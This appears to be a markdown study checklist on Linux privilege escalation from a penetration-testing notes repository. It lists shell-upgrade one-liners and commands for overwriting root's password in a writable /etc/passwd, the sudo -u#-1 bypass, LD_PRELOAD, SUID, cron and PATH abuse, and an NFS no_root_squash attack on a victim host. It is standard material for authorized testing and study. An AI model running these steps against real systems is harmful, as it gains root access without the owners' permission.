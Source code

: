## 03a. Linux Privilege Escalation
### Resources
- [Hacktricks Checklist](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
- [GTFOBins](https://gtfobins.github.io/)
- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)

### Upgrade your shell if it's not fully interactive
- `SHELL=/bin/bash script -q /dev/null`
- `python -c 'import pty;pty.spawn("/bin/bash")'`
- `python -c 'import pty;pty.spawn("/bin/sh")'`
- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `python3 -c 'import pty;pty.spawn("/bin/sh")'`
- ^Z and `stty raw -echo && fg`

### Checklist

- **SYSTEM - get system context**
	- `whoami` `id` `hostname`
- **Check for users && writable /etc/passwd**
	- `ls -la /etc/passwd` `cat /etc/passwd`
   		- `openssl passwd -1 -salt hacker hacker` and replace `root` password entry (or delete `x`)
		- `su root` `hacker` 
- **Check for directories and files**
	- /opt, /tmp, /var
 	- .bash_history from users
 	- check for passwords and info from user on /var/logs using `grep iR username`
- **KERNEL - Get kernel version** 
	- `uname -a` or `cat /proc/version` or `cat /etc/issue`
 	- search the result with `searchsploit`
  	- check on [CVE Details](https://www.cvedetails.com/)
  	- automated suggestions with [LES (Linux Exploit Suggester)](https://github.com/The-Z-Labs/linux-exploit-suggester)
  	- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)
	- `~/exploits` and Privilege Escalation notes
- **Check for sudo (valid password)** 
	- `sudo -l` `sudo -V` (below 1.28 `sudo -u#-1 /bin/bash`)
 	- if `env_keep+=LD_PRELOAD` exists we can load a custom lib (check repo files)
  		- `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
    	- `sudo LD_PRELOAD=/home/user/ldpreload/shell.so command`
- **Check for SUID Binaries**
	- `find / -perm -u=s -type f 2>/dev/null`
	- `find / -perm -04000 2>/dev/null`
 	- check binaries in [GTFOBins](https://gtfobins.github.io/)
- **Check capabilities**
	- `getcap -r / 2>/dev/null` look for cap_setuid+ep
- **Check cronjobs**
	- `ls -lah /etc/cron*` `cat /var/log/syslog | grep cron` `cat /var/log/cron.log`
	- `grep "CRON" /var/log/syslog` `ls -la /etc/cron.d` `ls -la /etc/cron.hourly`
 	- if the crontab script don't have a explicit path, it will execute from the directory present in crontab's `PATH=` var
- **Check environment**
	- `echo $PATH` `(env || set) 2>/dev/null` `history` `cat ~/.bashrc`
 	- check if you can write at $PATH
  	- copy binaries as bash or cat to new dir with new name
  	- create C script that calls the new bin, compile and `chmod u+s script`
  	- exec script from terminal
- **Check processes**
	- `ps aux` `ps -ef` `watch -n 1 "ps -aux | grep pass"`
 	- monitor for process without root privileges using [pspy64s](https://github.com/DominicBreuker/pspy)
- **Check your writable/usable files & file permissions**
	- `find / -writable -type d 2>/dev/null`
	- `find / -perm -u=s -type f 2>/dev/null`
	- `ls -la`
- **Check networking & services running on localhost**
	- `ip a` `netstat` `ss -anp`
- **Check NFS permissions**
	- `cat /etc/exports` if host use file sharing. Shared directory need `no_root_squash` param
 	- on attacker host
  		- `showmount -e VICTIM_IP`
		- `mkdir /tmp/dir`
  		- `mount -o rw VICTIM_IP:/dir_no_squash /tmp/dir`
    	- code c file (check repo)
    	- `gcc file.c -o file -w` this step may need to compile using older libs if victim host request. Use docker.
     	- `chmod +s file` and copy to /tmp/dir
	- on victim host exec the file from shared dir 
